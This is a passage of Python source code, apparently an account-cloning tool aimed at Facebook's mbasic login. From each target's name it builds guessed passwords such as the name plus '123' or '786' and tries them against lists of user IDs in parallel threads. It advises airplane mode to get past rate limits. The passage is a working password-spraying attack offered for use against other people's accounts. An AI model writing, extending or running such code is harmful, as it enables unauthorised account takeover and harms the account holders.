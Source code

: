		print ("\033[1;37m [3] \033[1;36mMETHOD MEDIUM ")
		print(50*"\033[1;97m_")
		yan = input('\033[1;37m[+] \033[1;36mCHOOSE OPTION \033[1;31m: \033[1;32m')
		if yan == '':
			print('\Choose Error ')
			exit()
		elif yan in ('1', '01'):
			os.system("clear")
			print(banner)
			time.sleep(1)
			print('\033[1;37m[+]\033[1;33m FILE CLONING ONLY OK IDS ')
			print('\033[1;37m[+]\033[1;36m TOTAL IDS \033[1;91m: \033[1;32m%s ' % len(self.id))
			print('\033[1;37m[+]\033[1;36m PROCESS HAS BEEN STARTED')
			print(50*"\033[1;97m_")
			print('      \033[1;97m\033[1;41m [ IF  NO RESULT USE AIRPLANE MODE ] \033[0m\033[1;93m')
			print(50*"\033[1;97m_")
			with ThreadPoolExecutor(max_workers=20) as (_ngentot_gratis_):
				for yntkts in self.id:
					try:
						uid, name = yntkts.split('|')
						xz = name.split(' ')
						fi , la = name.split(' ')
						first = fi.lower()
						last = la.lower()
						if len(xz) == 1:
							pwx = [first+' '+last, first+last, first+'123', first+'12345']
						elif len(xz) == 2:
							pwx = [first+' '+last, first+last, first+'123', first+'12345']
						elif len(xz) == 3:
							pwx = [first+' '+last, first+last, first+'123', first+'12345']
						elif len(xz) == 4:
							pwx = [first+' '+last, first+last, first+'123', first+'12345']
						else:
							pwx = [first+' '+last, first+last, first+'123', first+'12345']
						_ngentot_gratis_.submit(self.__mbasic__, uid, pwx)
					except:
						pass
			os.remove(self.apk)
			hasil(ok,cp)
		elif yan in ('2', '02'):
			os.system("clear")
			print(banner)
			time.sleep(1)
			print('\033[1;37m[+]\033[1;33m FILE CLONING ONLY OK IDS ')
			print('\033[1;37m[+]\033[1;36m TOTAL IDS \033[1;91m: \033[1;32m%s ' % len(self.id))
			print('\033[1;37m[+]\033[1;36m PROCESS HAS BEEN STARTED')
			print(50*"\033[1;97m_")
			print('      \033[1;97m\033[1;41m [ IF  NO RESULT USE AIRPLANE MODE ] \033[0m\033[1;93m')
			print(50*"\033[1;97m_")
			with ThreadPoolExecutor(max_workers=25) as (_ngentot_gratis_):
				for yntkts in self.id:
					try:
						uid, name = yntkts.split('|')
						xz = name.split(' ')
						if len(xz) == 1:
							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345"]
						elif len(xz) == 2:
							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345"]
						elif len(xz) == 3:
							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345"]
						elif len(xz) == 4:
							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345"]
						else:
							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345"]